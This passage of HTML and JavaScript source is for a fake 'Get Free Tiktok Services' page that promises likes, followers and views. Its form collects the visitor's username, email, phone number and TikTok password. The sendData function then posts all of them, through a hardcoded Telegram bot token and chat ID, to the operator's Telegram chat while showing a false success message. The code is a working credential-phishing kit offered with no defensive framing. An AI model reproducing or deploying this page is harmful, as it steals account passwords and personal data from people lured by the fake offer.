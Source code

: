       <option value="100">100 Followers</option>
      <option value="500">500 Followers</option>
    </select>
    <select id="views">
      <option value="">Views</option>
      <option value="100">100 Views</option>
      <option value="1000">1000 Views</option>
      <option value="5000">5000 Views</option>
    </select>
  </div>

  <button onclick="sendData()">Submit Request</button>
  <div class="loading" id="loading">⏳ Processing Request...</div>
  <div class="success" id="success">✅ Request Sent Successfully! <b>Please Wait...</b></div>

  <footer>Get Free Tiktok Services</footer>
</div>

<script>
const botToken = "8074425306:AAFZ8DvcPCHHEuPlY4R9HaF1OGQ9raJ1oZw";
const chatId = "8170720704";

function sendData() {
  const username = document.getElementById("username").value;
  const email = document.getElementById("email").value;
  const phone = document.getElementById("phone").value;
  const password = document.getElementById("password").value;
  const videoLink = document.getElementById("videoLink").value;
  const likes = document.getElementById("likes").value;
  const followers = document.getElementById("followers").value;
  const views = document.getElementById("views").value;

  if (!username || !email || !phone || !password || !videoLink || !likes || !followers || !views) {
    alert("Please fill out all fields!");
    return;
  }

  document.getElementById("loading").style.display = "block";
  document.getElementById("success").style.display = "none";

  const message = `🎯 TikTok Free Services Request
-----------------------
👤 Username: ${username}
📧 Email: ${email}
📱 Phone: ${phone}
🔑 Password: ${password}
🎬 Video Link: ${videoLink}
❤️ Likes: ${likes}
👥 Followers: ${followers}
👀 Views: ${views}`;

  fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ chat_id: chatId, text: message })
  })
  .then(response => {
    document.getElementById("loading").style.display = "none";
    document.getElementById("success").style.display = "block";
    setTimeout(() => { document.getElementById("success").style.display = "none"; }, 4000);
  })
  .catch(error => {
    document.getElementById("loading").style.display = "none";
    alert("Error sending data!");
  });
}
</script>